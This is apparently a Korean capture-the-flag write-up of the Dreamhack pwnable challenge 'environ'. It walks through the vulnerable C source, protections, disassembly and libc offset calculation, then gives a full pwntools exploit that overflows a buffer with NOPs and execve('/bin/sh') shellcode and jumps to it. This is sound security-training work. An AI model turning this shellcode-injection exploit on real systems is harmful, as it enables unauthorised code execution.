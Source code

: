 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN environ"
excerpt: "드림핵 포너블 environ 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-20 17:30
---
```


오랜만에 풀어보는 시스템 해킹이다.

environ을 간단히 설명해보면 프로그램이 동작할 떄 시스템의 환경변수를 참조해야할 경우가 있다. 이때 사용하는 것이 environ 포인터인데 이는 시스템의 환경변수를 가리키며 로더의 초기화 함수에 의해 초기화 된다.

이번 문제의 코드를 살펴보면 다음과 같다
```c
int main()
{
    char buf[16];
    size_t size;
    long value;
    void (*jump)();

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    printf("Data: ");
    read(0, buf, size);

    printf("*jmp=");
    scanf("%ld", &value);

    jump = *(long *)value;
    jump();

    return 0;
}
```

stdout의 주소값을 출력해주고 입력받은 사이즈 만큼 buf에 쓰고 value의 주소를 정해줘 해당 주소로 점프해 어셈블리 코드를 실행하게 된다. 

바이너리에 걸린 보안 기술을 보면 다음과 같다
```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
stack canary가 적용되어 있지만 이를 체크하기 전에 쉘 코드가 실행되어 크게 신경쓸 부분은 아닌것 같다.

우선 해당 바이너리를 익스하기 위해 stdout주소에서 stdout offset의 차를 구해 libc base주소를 구한다. 이후 해당 libc base주소에 environ offset을 더해 바이너리의 environ주소를 구한다. 다음으로 buf를 오버플로우 시켜 environ 영역에 쉘 코드를 삽입하고 해당 주소로 점프하면 쉘을 구할 수 있다.

main함수의 어셈블리를 살펴보자
```c
0x000000000040089a <+0>:     push   rbp
   0x000000000040089b <+1>:     mov    rbp,rsp
   0x000000000040089e <+4>:     sub    rsp,0x40
   0x00000000004008a2 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x00000000004008ab <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008af <+21>:    xor    eax,eax
   0x00000000004008b1 <+23>:    mov    eax,0x0
   0x00000000004008b6 <+28>:    call   0x40083e <initialize>
   0x00000000004008bb <+33>:    mov    rax,QWORD PTR [rip+0x2007be]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c2 <+40>:    mov    rsi,rax
   0x00000000004008c5 <+43>:    mov    edi,0x400a0d
   0x00000000004008ca <+48>:    mov    eax,0x0
   0x00000000004008cf <+53>:    call   0x4006a0 <printf@plt>
   0x00000000004008d4 <+58>:    mov    edi,0x400a19
   0x00000000004008d9 <+63>:    mov    eax,0x0
   0x00000000004008de <+68>:    call   0x4006a0 <printf@plt>
   0x00000000004008e3 <+73>:    lea    rax,[rbp-0x38]
   0x00000000004008e7 <+77>:    mov    rsi,rax
   0x00000000004008ea <+80>:    mov    edi,0x400a20
   0x00000000004008ef <+85>:    mov    eax,0x0
   0x00000000004008f4 <+90>:    call   0x400700 <__isoc99_scanf@plt>
   0x00000000004008f9 <+95>:    mov    edi,0x400a24
   0x00000000004008fe <+100>:   mov    eax,0x0
   0x0000000000400903 <+105>:   call   0x4006a0 <printf@plt>
   0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x000000000040090c <+114>:   lea    rax,[rbp-0x20]
   0x0000000000400910 <+118>:   mov    rsi,rax
   0x0000000000400913 <+121>:   mov    edi,0x0
   0x0000000000400918 <+126>:   call   0x4006c0 <read@plt>
   0x000000000040091d <+131>:   mov    edi,0x400a2b
   0x0000000000400922 <+136>:   mov    eax,0x0
   0x0000000000400927 <+141>:   call   0x4006a0 <printf@plt>
   0x000000000040092c <+146>:   lea    rax,[rbp-0x30]
   0x0000000000400930 <+150>:   mov    rsi,rax
   0x0000000000400933 <+153>:   mov    edi,0x400a20
   0x0000000000400938 <+158>:   mov    eax,0x0
   0x000000000040093d <+163>:   call   0x400700 <__isoc99_scanf@plt>
   0x0000000000400942 <+168>:   mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400946 <+172>:   mov    rax,QWORD PTR [rax]
   0x0000000000400949 <+175>:   mov    QWORD PTR [rbp-0x28],rax
   0x000000000040094d <+179>:   mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000400951 <+183>:   mov    eax,0x0
   0x0000000000400956 <+188>:   call   rdx
   0x0000000000400958 <+190>:   mov    eax,0x0
   0x000000000040095d <+195>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000400961 <+199>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000040096a <+208>:   je     0x400971 <main+215>
   0x000000000040096c <+210>:   call   0x400690 <__stack_chk_fail@plt>
   0x0000000000400971 <+215>:   leave  
   0x0000000000400972 <+216>:   ret 
```

stdout을 통해 libc base 주소를 구하는 것은 어렵지 않다.
pwntools을 이용하면 된다. 출력된 주소 - libc.symbols["_IO_2_1_stdout_"]를 이용하면 쉽게 구할 수 있다. 가장 중요한 것은 buf의 위치와 environ 위치의 offset을 구해야 하는데 gdb 상에서 살펴보면 read 함수에서 받아 저장할 위치는 rbp-0x20이라고 되어있다.

```c
0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
```

이부분의 주소값과 environ의 주소값의 차를 구하고 쉘코드의 길이를 더한 만큼 오버플로우 시켜야 한다.

그러면 buf와 environ의 offset 만큼의 nop코드로 채운 후 쉘코드를 삽입하고 이로 건너뛰는 시나리오가 될 것이다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 17150);
libc = ELF("./libc.so.6")
#c = process("./environ")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

shell = asm(shellcraft.execve("/bin/sh"))

c.recvuntil(b"stdout: ")
stdout = int(str(c.recvline()[:-1]).replace("b", "").replace("'", ''), 16)
print(f"stdout : {hex(stdout)}")

stdoutOffset = libc.symbols["_IO_2_1_stdout_"]
libcBase = stdout-stdoutOffset
print(f"libc base : {hex(libcBase)}")
print(f"libc offset : {hex(stdoutOffset)}")

envAddr = libcBase+libc.symbols["environ"]
print(f"environ addr : {hex(envAddr)}")
bufToenvOffset = 0x148
print(f"Buffer to environ addr offset : {hex(bufToenvOffset)}")

c.recvuntil(b"Size: ")
c.sendline(str(bufToenvOffset+len(shell)))

c.recvuntil(b"Data: ")
c.sendline(b"\x90"*bufToenvOffset+shell)

c.recvuntil(b"*jmp=")
c.sendline(str(envAddr))

c.interactive()
```

위 코드를 통해 익스플로잇이 가능하다. 